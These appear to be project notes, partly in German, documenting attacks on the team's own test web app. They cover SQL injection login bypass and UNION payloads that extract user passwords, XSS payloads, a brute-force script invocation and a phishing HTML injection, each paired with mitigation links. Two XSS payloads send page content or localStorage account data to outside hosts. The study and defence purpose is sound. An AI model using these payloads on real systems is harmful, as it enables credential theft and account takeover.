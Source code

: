 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

### Union Attack 
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld.
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack.
__%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users --__ to return userdata.

## Maßnahmen
Escaping query values:
https://github.com/mysqljs/mysql#escaping-query-values (Placeholders: https://mariadb.com/kb/en/connector-nodejs-promise-api/)


# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror= document.body.innerHTML = "<h1>You got hacked</h1>";>
<IMG SRC=j&#X41vascript:alert('test2')>
<script>new Image().src="https://192.165.159.122/fakepg.php?output="+document.body.innerHTML</script>
<img 
  src="https://jnx.me/img/profile.jpg" 
  style="display:none" 
  onload="fetch('https://enj917gkdfyp.x.pipedream.net/', {method: 'POST', body: localStorage.getItem('account')})"
>
```

## Maßnahmen
https://v2.vuejs.org/v2/guide/security.html#:~:text=The%20most%20fundamental%20security%20rule%20when%20using%20Vue,during%20server-side%20rendering.%20An%20example%20of%20such%20usage%3A

https://www.npmjs.com/package/sanitize-html

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

To start the brute-force script navigate to the "Attacks" directory and preform the following command:

```
python -m pip install selenium
python brute-force.py -u admin -t http://localhost:8081/loginPage -p passwords.txt
```

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```

## Maßnahmen
https://www.npmjs.com/package/sanitize-html
